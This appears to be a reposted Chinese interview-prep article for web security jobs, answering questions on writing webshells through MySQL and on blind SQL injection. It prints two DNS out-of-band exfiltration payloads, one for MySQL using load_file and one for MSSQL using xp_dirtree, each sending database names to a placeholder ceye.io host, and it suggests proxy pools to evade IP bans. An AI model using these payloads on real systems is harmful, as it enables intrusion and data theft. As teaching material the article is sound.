 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/BQfNoodElOgDGFoUfiqlPQ)

**前言**
------

近期面试喜欢问的问题，总结了一下。

岗位分析
----

整体安全行业，随着网络安全的大火，Web 安全入门浅，培训机构遍地开会，大量花里胡哨的人才都争着用了进来，所以想要突出，必须要有自己的一技之长。

那么当前网络安全的技术岗位，热门方向有很多，说几个例子。

<table width="570"><thead><tr><th>逆向</th></tr></thead><tbody><tr><td height="30">APT</td></tr><tr><td height="30">代码审计</td></tr><tr><td height="30">区块链</td></tr><tr><td height="30">渗透（不限于内网、CS 客户端，APP，小程序，微服务等）</td></tr></tbody></table>

常见面试题及参考
--------

### 问：MySQL 写 WebShell 有几种方式，利用条件

答：

一、

> union select 后写入
> 
> lines terminated by 写入
> 
> lines starting by 写入
> 
> fields terminated by 写入
> 
> COLUMNS terminated by 写入

二、

> root 权限
> 
> GPC 关闭（能使用单引号），magic_quotes_gpc=On
> 
> 有绝对路径（读文件可以不用，写文件必须）
> 
> 没有配置–secure-file-priv
> 
> 成功条件：有读写的权限，有 create、insert、select 的权限

### 问：Sql 注入无回显的情况下，利用 DNSlog，mysql 下利用什么构造代码，mssql 下又如何？

答：

> （1）没有回显的情况下，一般编写脚本，进行自动化注入。但与此同时，由于防火墙的存在，容易被封禁 IP，可以尝试调整请求频率，有条件的使用代理池进行请求。
> 
> （2）此时也可以使用 DNSlog 注入，原理就是把服务器返回的结果放在域名中，然后读取 DNS 解析时的日志，来获取想要的信息。
> 
> （3）Mysql 中利用 load_file() 构造 payload
> 
> ‘ and if((select load_file(concat(‘\\\\’,(select database()),’.xxx.ceye.io\\abc’))),1,0)# 
> 
> （4）Mssql 下利用 master..xp_dirtree 构造 payload
> 
> DECLARE @host varchar(1024);SELECT @host=(SELECT db_name())+’.xxx.ceye.io’;EXEC(‘master..xp_dirtree”\’+@host+’\foobar$”‘);
